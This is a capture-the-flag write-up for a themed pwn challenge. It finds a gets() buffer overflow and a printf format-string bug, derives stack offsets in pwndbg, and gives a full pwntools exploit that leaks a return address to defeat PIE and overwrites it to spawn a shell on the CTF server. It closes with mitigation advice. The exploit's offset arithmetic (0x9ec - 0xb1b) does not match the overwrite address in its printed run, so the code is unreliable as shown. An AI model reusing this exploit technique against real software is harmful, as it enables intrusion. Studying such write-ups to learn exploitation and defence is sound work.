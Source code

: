 # Intro to Pwning 1

When run, the binary first asks us for our witch name, which it then prints back to us and then asks us for a magic spell:
```
$ ./pwn1
Enter your witch name:
Hermione
┌───────────────────────┐
│ You are a Hufflepuff! │
└───────────────────────┘
Hermione enter your magic spell:
Expelliarmus
~ Protego!
```

Looking at the code we can quickly find two vulnerabilities:
1. All user input is read using the `gets` function, which doesn't have a length limit for the input and can therefore be used for buffer overflows.
2. The binary uses `printf` directly to print the entered name, which among other things allows us to leak data from the stack.

We can also find an unused function `WINgardium_leviosa` which opens a shell:
```cpp
void WINgardium_leviosa() {
    printf("┌───────────────────────┐\n");
    printf("│ You are a Slytherin.. │\n");
    printf("└───────────────────────┘\n");
    system("/bin/sh");
}
```

Looking at the `checksec` output we can see that the binary has no stack canary but `PIE` is enabled:
```
$ checksec pwn1
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Because there is no stack canary we can simply use `gets` to overwrite the return address and jump to `WINgardium_leviosa` but
because of `PIE` we first need to find out the base address of the binary.
We can use `printf` for that.

Using `gdb` and `pwndbg` we can find out that the return address is at position `33` on the stack when `printf` is called in `welcome`:
```
pwndbg> disass welcome
...
   0x0000000008000a81 <+94>:    call   0x80007c0 <printf@plt>
...
pwndbg> b *welcome+94
pwndbg> r
pwndbg> stack 50
...
1f:00f8│          0x7ffffffee018 —▸ 0x80009e9 (ignore_me_init_signal+31) ◂— nop     /* 0x48e5894855c35d90 */
20:0100│ rbp      0x7ffffffee020 —▸ 0x7ffffffee040 ◂— 0x0
21:0108│          0x7ffffffee028 —▸ 0x8000b21 (main+45) ◂— mov    eax, 0 /* 0xff5ee800000000b8 */
...
pwndbg> pi 0x21
33
```

Because `printf`'s first six variadic arguments are taken from registers we can leak the address using `%39$p` i.e. printing the 39th argument to `printf` as a pointer which will be the 33rd value on the stack:

```
Enter your witch name:
%39$p
┌───────────────────────┐
│ You are a Hufflepuff! │
└───────────────────────┘
0x7f2461e00b21 enter your magic spell:
```

Taking another look with `gdb` we can also find out the offset between the return address and the `WINgardium_leviosa` function:
```
pwndbg> disass welcome
...
   0x0000000008000a88 <+101>:   ret
...
pwndbg> b *welcome+101
pwndbg> r
pwndbg> stack 1
00:0000│ rsp  0x7ffffffee028 —▸ 0x8000b21 (main+45) ◂— mov    eax, 0 /* 0xff5ee800000000b8 */
pwndbg> p WINgardium_leviosa
$1 = {<text variable, no debug info>} 0x80009ec <WINgardium_leviosa>
pwndbg> pi 0x8000b21 - 0x80009ec
309
```

and the offset between the buffer and the return address for the second `gets`, which is `0x108` bytes:
```
pwndbg> disass AAAAAAAA
...
   0x0000000008000aaf <+38>:    call   0x8000800 <gets@plt>
   0x0000000008000ab4 <+43>:    lea    rax,[rbp-0x100]
...
pwndbg> b *AAAAAAAA+43
pwndbg> c
Hermione enter your magic spell:
AAAAAAAA
pwndbg> stack 50
00:0000│ rax r8 r10 r11 rsp  0x7ffffffedf20 ◂— 'AAAAAAAA'
...
21:0108│                     0x7ffffffee028 —▸ 0x8000b2b (main+55) ◂— nop     /* 0x4157419066c3c990 */
```

We also have to start the input for the second `gets` with `"Expelliarmus\0"` because the program
compares the spell we give it and immediately exits if it's not `"Expelliarmus"`.
Luckily `strcmp` stops at null-bytes but `gets` reads until newlines so this is not a problem.

Trying the exploit will now give a `segfault` in `system` because of a misaligned stack
but we can just jump one instruction later into `WINgardium_leviosa` which will skip a `push`
instruction and align the stack correctly.

The final exploit now looks like this:
```python
#!/usr/bin/env python3

from pwn import *

p = remote("hax1.allesctf.net", 9100)

p.recvuntil("Enter your witch name:")
p.sendline("#%39$p#")

p.recvuntil("#")
leak = p.recvuntil("#")
leak = int(leak[:-1], 16)

log.info(f"Leaked ret address: {leak:#x}")

p.recvuntil(":")

leak += 0x9ec - 0xb1b
log.info(f"Overriding with: {leak:#x}")

payload = b"Expelliarmus\0".ljust(0x108) + p64(leak)
p.sendline(payload)
p.interactive()
```

And running it gives us a shell and the flag:
```
$ ./exploit.py
[+] Opening connection to hax1.allesctf.net on port 9100: Done
[*] Leaked ret address: 0x55dcfcb87b21
[*] Overriding with: 0x55dcfcb879ed
[*] Switching to interactive mode

~ Protego!
┌───────────────────────┐
│ You are a Slytherin.. │
└───────────────────────┘
$ cat flag
CSCG{NOW_PRACTICE_MORE}
```

Clearly, it's better to follow the `man`-pages advice and `Never use gets(). [...] Use fgets() instead.`
And of course letting users control the first argument of `printf` is equally bad.
Instead, `printf("%s", user_input)` should be used.

Next: [Intro to Pwning 2](intro_pwn2.md)
